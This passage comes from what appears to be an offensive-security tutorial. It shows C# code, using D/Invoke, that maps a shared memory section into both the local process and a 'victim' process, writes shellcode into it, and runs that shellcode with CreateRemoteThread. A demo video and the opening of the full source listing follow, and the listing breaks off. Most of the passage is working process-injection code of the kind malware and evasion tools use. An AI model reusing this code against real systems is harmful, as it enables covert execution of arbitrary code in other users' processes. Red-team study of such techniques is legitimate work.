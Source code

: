 ```csharp
IntPtr hlocalBaseAddress = IntPtr.Zero;
IntPtr hRemoteBaseAddress = IntPtr.Zero;
uint PAGE_READWRITE = 0x04;
uint PAGE_EXECUTE_READ = 0x20;
DynamicInvoke.Native.NtMapViewOfSection(sectionHandle, Process.GetCurrentProcess().Handle, ref hlocalBaseAddress, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero, ref maxSize, 2, 0, PAGE_READWRITE); 
DynamicInvoke.Native.NtMapViewOfSection(sectionHandle, pi.hProcess, ref hRemoteBaseAddress, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero, ref maxSize, 2, 0, PAGE_EXECUTE_READ);     
```
These lines will map views onto our section, or basically grant access to this section to our process and the victim process. We will need a pointer to the location where the view is mapped for both local and remote process, so we declare pointers in the first two lines. The third line uses the `sectionHandle` variable to find the address of the section it will map a view on. It then maps this view for our current process and will use `hlocalBaseAddress` to store the location of this new view. We'll declare some default values with `IntPtr.Zero` , use the `maxSize` variable to dictate how large the view will be, specify `2` so that the view won't be mapped into child processes, and we'll specify `PAGE_READWRITE` because we won't be executing the shellcode from this view (we are executing it from the victim process). For making the view on the remote process, its mostly the same except we'll pass in parameters related to the remote process, such as the handle. However, it will pass  `PAGE_EXECUTE_READ` since we'll be executing shellcode from this view. Next we'll add:
```
IntPtr lpThreadId = IntPtr.Zero;
Marshal.Copy(buf, 0, hlocalBaseAddress, buf.Length);
CreateRemoteThread(pi.hProcess, IntPtr.Zero, 0, hRemoteBaseAddress, IntPtr.Zero, 0, out lpThreadId);
```
We'll use `Marshal.Copy` to write our shellcode into our view, and since views of the section are shared, the view on the remote process will have the same shellcode written in. We can then create a thread on that process to execute our code. The full code (excluding the imported code from rasta-mouse's repo) is shown below, along with a demo.


<video width="100%" height="100%" controls="">
  <source src="https://user-images.githubusercontent.com/68256613/175815141-0e64f3fb-f569-4336-ac75-9c1ed7dffcaf.mp4" type="video/mp4">
</video>

```csharp
using System;
using System.Reflection;
using System.Runtime.InteropServices;
using System.IO;
using System.Collections.Generic;
using System.Diagnostics;
using System.Threading;
namespace Dinvoke
{
	public class Delegates
	{
	[UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);
	[UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate Boolean CreateProcess(
            string lpApplicationName,
            string lpCommandLine,
            ref Structs.SECURITY_ATTRIBUTES lpProcessAttributes,
            ref Structs.SECURITY_ATTRIBUTES lpThreadAttributes,
            bool bInheritHandles,
```